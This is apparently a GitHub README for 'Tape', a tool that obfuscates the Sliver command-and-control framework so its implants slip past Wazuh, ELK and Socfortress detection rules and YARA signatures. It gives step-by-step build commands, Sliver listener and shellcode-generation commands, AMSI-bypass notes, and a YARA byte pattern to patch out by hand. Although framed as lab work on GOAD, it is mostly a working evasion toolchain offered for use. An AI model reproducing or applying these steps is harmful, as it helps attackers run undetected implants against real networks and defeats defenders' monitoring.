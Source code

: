# Tape
Scotch-Tape usage for [Sliver](https://github.com/BishopFox/sliver) obfuscation  
This technique looks a bit like this ...
<p align="center">
  <img src="./image/jim-carrey-tape.gif" alt="jimmy-jim width="290" height="290" />
</p>  


## In Labs - GOAD with Wazuh Activated    
1. Yes, I know that just tweaking some settings in Havoc allows the demon.bin to be executed on GOAD (on Socfortress rules machines) without issues. But in this case, my goal was to achieve the same thing manually with [Sliver](https://github.com/BishopFox/sliver), which allowed me to learn much more about this C2.
And for Havoc, if you didn't know—now you know.    
2. In this case, we will bypass and obfuscate our payload with minimal effort. (If my calculations are correct: Socfortress—out, ELK multi sliver rules—out, Wazuh sliver YARA rules—out. I’m not considering Defender in my equation because some built-in bypasses in the implant can still be flagged, even in this case.)  

## Taping.sh  

### Prerequisite for GVM - only v1.5 version of sliver
```bash
bash < <(curl -s -S -L https://raw.githubusercontent.com/moovweb/gvm/master/binscripts/gvm-installer)
source . /root/.gvm/scripts/gvm
```

1. Clone [Sliver](https://github.com/BishopFox/sliver) repository and this repo [Tape](https://github.com/Oni-kuki/Tape)  
```taping.sh
git clone https://github.com/BishopFox/sliver.git
git clone https://github.com/Oni-kuki/Tape
```
* If you want the latest stable version of sliver (v1.5.43) go in sliver repo and make
```
git checkout v.1.5.43
``` 
2. Go in [Tape](https://github.com/Oni-kuki/Tape) repo 
```taping.sh
cd Tape
``` 
3. Modify first variables on the [Taping.sh](https://github.com/Oni-kuki/Tape/blob/main/taping.sh) script (no space, no problematic special character)  
```taping.sh
var1=XXXXX #replacement of bishopfox
var2=XXXXX #replacement of sliver
var3=XXXXX #replacement of Sliver 
```
4. Execute [Taping.sh](https://github.com/Oni-kuki/Tape/blob/main/taping.sh)
```taping.sh
# in this example, but you can specify the folder where sliver is located depending on your clone 
sudo ./taping.sh version 1.5 ../sliver/
sudo ./taping.sh version 1.6 ../sliver/
```  

### Some explanation and OPSEC Recomendations
> [!NOTE]  
> Version 1.5 or 1.6 are reference to [Sliver](https://github.com/BishopFox/sliver) version
> 1.6 is still in development so use it with caution (do not use it in production).   
> I add some new features to make easier the external building, now with --ext argument we can build external-builder with 1.6 donut-loader wich are more OPSEC for implant and build the server with the 1.5 donut-loader wich are more OPSEC for the execute-assembly function.  
> So at the end we will have 3 binaries external-server (just for implant creation), client, and the server.  

```taping.sh
# in this example, but you can specify the folder where sliver is located depending on your clone
sudo ./taping.sh version 1.5 ../sliver/ --ext
sudo ./taping.sh version 1.6 ../sliver/ --ext
```

#### Why did I make this ? 
Because the Donut loader in version 1.6 doesn't allow the execute-assembly method to work correctly.
I tested a lot of things to understand why, and I isolated the fact that the loader cannot retrieve the output. This might be linked to the AMSI patch (the bypasses are applied in two ways: one for Donut itself, (for implant) and the other in the loader for execute-assembly). However, I haven't delved too deeply into the subject yet.  

Regardless, version 1.6 is quieter for the implant, while version 1.5 works better for execute-assembly. In any case, version 1.5 is more stable and production-ready.  

> [!CAUTION]  
> This takes a while, so be patient  
> I highly recommend reading the script, because it's necessary to make some modification on it, in link with your fork  

## Scotch.py  
This script can be used independently of this repo, (if you have read the [Taping.sh](https://github.com/Oni-kuki/Tape/blob/main/taping.sh) you'll notice some redundancy in the obfuscation techniques.)  

```
python3 scotch.py FILE
```

> [!CAUTION] 
> Depending on your listener, not every obfuscation technique can be applied. By default, the obfuscation is set for an mTLS listener.   
> So again Read the script

```sliver
mtls -L HOST_IP -l port -p
generate -m HOST_IP:PORT -G --skip-symbols -f shellcode -s ./FOLDER/TO/SAVE
```
## Last but not Least  
I don't have automated one particular obfuscation (wireguard strings because it's still a bit tricky)  
You can make it manually with ghidra for the moment, I will automated in a few days.  
the hex to change is based on this rule part :
```
$p1 = {66 81 ?? 77 67}
```
Use the yara rule to identify correctly the Hex part; it's more precise.  